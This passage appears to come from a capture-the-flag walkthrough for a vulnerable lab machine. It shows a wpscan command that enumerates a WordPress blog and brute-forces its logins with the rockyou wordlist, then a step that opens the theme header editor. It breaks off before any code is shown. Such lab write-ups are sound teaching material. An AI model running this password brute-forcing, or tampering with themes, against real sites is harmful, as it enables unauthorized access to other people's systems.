


3.2 Wpscan
1. Use “wpscan” to find more about Wordpress.
$wpscan --url http://driftingblues.box/blog --detection-mode aggressive -e --passwords=/usr/share/wordlists/rockyou.txt
Output:

You have found the user credentials.
2. Log in and go to “Appearence->Editor->Theme header”.

3.